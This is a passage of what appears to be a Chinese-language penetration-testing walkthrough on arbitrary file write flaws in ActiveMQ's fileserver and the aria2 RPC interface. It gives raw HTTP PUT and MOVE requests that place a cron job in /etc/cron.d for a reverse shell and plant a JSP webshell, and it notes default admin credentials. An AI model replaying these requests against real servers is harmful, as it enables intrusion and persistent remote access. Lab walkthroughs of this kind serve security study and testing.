 将其移动到`/etc/cron.d/root`：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">MOVE /fileserver/1.txt HTTP/1.1</span><br><span class="line">Destination: file:///etc/cron.d/root</span><br><span class="line">Host: 192.168.6.130:8161</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Length: 0</span><br></pre></td></tr></tbody></table>

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://192.168.6.130:8161/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

然后上传webshell：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">PUT /fileserver/2.txt HTTP/1.1</span><br><span class="line">Host: localhost:8161</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Length: 120976</span><br><span class="line"></span><br><span class="line">webshell...</span><br></pre></td></tr></tbody></table>

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">MOVE /fileserver/2.txt HTTP/1.1</span><br><span class="line">Destination: file:///opt/activemq/webapps/api/s.jsp</span><br><span class="line">Host: localhost:8161</span><br><span class="line">Accept: */*</span><br><span class="line">Accept-Language: en</span><br><span class="line">User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)</span><br><span class="line">Connection: close</span><br><span class="line">Content-Length: 0</span><br></pre></td></tr></tbody></table>

访问webshell（需要登录）,或者直接上菜刀

### [](#2-aria2 "2.aria2")2.aria2

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 <http://binux.github.io/yaaw/demo/> 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`:

然后点击Add，增加一个新的下载任务。在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：

这时候，arai2会将恶意文件（我指定的URL）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：
